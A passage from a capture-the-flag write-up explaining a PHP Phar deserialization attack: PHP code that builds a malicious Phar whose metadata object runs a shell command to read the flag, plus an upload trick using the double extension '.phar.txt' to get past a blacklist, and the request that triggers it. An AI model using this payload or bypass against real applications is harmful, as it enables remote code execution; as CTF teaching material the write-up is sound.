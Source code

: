 **Lightbulb moment**: The `previewReport()` function calls `new Phar($fullPath)` on our uploaded file. This is a filesystem operation that automatically triggers deserialization of the Phar metadata, which will call our `SystemTask::__wakeup()` method!

### The Attack Vector - Phar Deserialization
Here's the crucial part I need to explain properly: **any filesystem function that accesses a Phar file will automatically deserialize the metadata stored in that Phar file**. This happens by design in PHP.

The `new Phar($fullPath)` call is a filesystem operation that reads our uploaded Phar file. The moment PHP touches that file, it automatically unserializes whatever object we stored in the Phar's metadata section. If that object has a `__wakeup()` magic method, PHP calls it immediately during deserialization.

### The Attack
1. **Craft malicious Phar**:

```php
class SystemTask {
    private $task;
    public function __construct($task) {
        $this->task = $task;
    }
}

$phar = new Phar('exploit.phar');
$phar->addFromString('test.txt', 'test content');
$phar->setMetadata(new SystemTask('cat /tmp/flag.php'));
$phar->setStub('<?php __HALT_COMPILER(); ?>');
?>
```

2. **Upload** the Phar file as `exploit.phar.txt` - bypassed the extension blacklist since it ends with `.txt`, but it's still a valid Phar file internally!
> i will explain why the double extensions works later.
3. **Trigger** with `/?report=exploit.phar`

4. **Boom** - `new Phar()` processes the file and PHP automatically deserializes the Phar metadata (regardless of the filename!), our `SystemTask::__wakeup()` gets called, command executes, flag captured!


**But why the double extension trick works ?**
Honestly, when I was solving the challenge, it was obvious to me what the idea behind it was. I knew exactly that it was about a Phar Deserialization Attack, as I had read about it before and even faced it in a previous CTF. So crafting the payload was easy.

The only problem I encountered was the extension bypass.

In that CTF, I simply gave the double extension trick a try, I didn't really think too hard about it. Double extensions are a known technique. But after the CTF, I started wondering: why does it actually work? That question stuck with me.

So I did something simple. I went to review the Phar source code xD
